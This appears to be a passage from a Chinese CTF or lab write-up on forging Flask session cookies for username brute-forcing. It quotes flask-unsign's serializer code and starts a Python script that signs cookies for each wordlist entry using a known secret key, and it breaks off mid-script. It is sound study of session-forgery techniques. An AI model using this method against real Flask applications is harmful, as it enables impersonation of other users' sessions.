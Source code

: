 ## 带有 Cookie 的暴力用户名

使用 time 将可能的用户名生成一个 cookie 列表。

[![](assets/1701678249-2f012717a100ed2dbe8a957099aee029.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130213634-7ab70776-8f85-1.png)

## 代码分析

这将获取一个名称列表并生成我需要的所有 cookie。这实际上很慢，运行时间超过 8 分钟。这是因为每项工作都必须启动，其中包括导入所有 Flask。  
我可以深入研究一下 flask-unsign 源代码，并跟踪我用--sign.  
@lru\_cache()  
def get\_serializer(secret: str, legacy: bool, salt: str) -> URLSafeTimedSerializer:

```bash
"""
    Get a (cached) serializer instance
    :param secret: Secret key
    :param salt: Salt
    :param legacy: Should the legacy timestamp generator be used?
    :return: Flask session serializer
    """
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})
```

向后追溯，我可以发现默认的 salt 是“cookie-session”。我知道或只是在文件顶部导入的其他内容。我可以使用它来生成我自己的脚本：

```bash
#!/usr/bin/env python3

import hashlib
import sys
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import TimestampSigner, URLSafeTimedSerializer

if len(sys.argv) < 2:
    print(f"{sys.argv[0]} [wordlist]")
    sys.exit()

with open(sys.argv[1], 'r') as f:
    names = f.readlines()

for name in names:
    cookie = URLSafeTimedSerializer(
            secret_key='secret123',
            salt='cookie-session',
            serializer=TaggedJSONSerializer(),
            signer=TimestampSigner,
            signer_kwargs={
```